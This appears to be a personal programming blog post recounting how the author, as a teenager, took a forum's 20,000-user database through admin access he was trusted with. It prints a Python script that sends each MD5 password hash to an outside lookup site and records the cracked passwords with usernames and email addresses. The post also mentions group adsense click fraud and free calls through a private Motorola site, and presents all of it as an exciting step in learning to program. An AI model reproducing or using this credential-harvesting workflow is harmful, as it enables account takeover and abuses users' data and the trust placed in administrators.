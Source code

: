 ```yaml
---
layout: post
title: A curious guy getting hands dirty
categories: [programming]
published: true
date: 2012-09-17
markdown: markdown
---
```

If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my cheap C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires, yeah!). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of that year (2004 I think).

Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…

In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.

When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}

Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.

The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.

First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had to purpouses:

* The idea of reading and parsing a 20Mb file in python on my slow pc didn’t attract me
* I didn't want to send 20.000 request to gdataonline

I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:

{% highlight python %}
#!/usr/bin/env python
 # -*- coding: iso-8859-15 -*-
 import re
 import urllib
 import os

 def getPasswords():
   successful_passwords = 0
   num = 1

   file = r"inputFile001" #Change this for every file
   text = open(file, "r")
   content = text.read()
   text.close()
   user = re.findall("VALUES.*?;", content)

   output_file = r"outputFile001" #Change this for every file
   foo = open(output_file, "w")

   spaces = " "*32
   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
   foo.write('-' * 90 + "\r")

   for i in user:
     nickname = i.split()[2].strip(",").strip("'")
     mail = i.split()[39].strip(",").strip("'")

     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
     xml = f.read()
     passwords = re.findall(".*?", xml)

     if passwords: # If we get the original
    password = passwords[0].split("").pop().split("")[0]
         successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

     os.system("clear")
     print "Total: %i" % len(user)
     print "Analized: %i" % num
     print "Found: %i" % successful_passwords

     num += 1

   foo.close()
   print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…

|**Nickname**|**Password**|**Mail**|
|john|mylove_1234|johny_the_cool@hotmail.com|
|mike|kansas70000|the_big_boy@yahoo.com|
|admin|lalalalaImDaAdmin|admin@thissite.com|
|....|....|....|

I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.

This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. It felt good, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.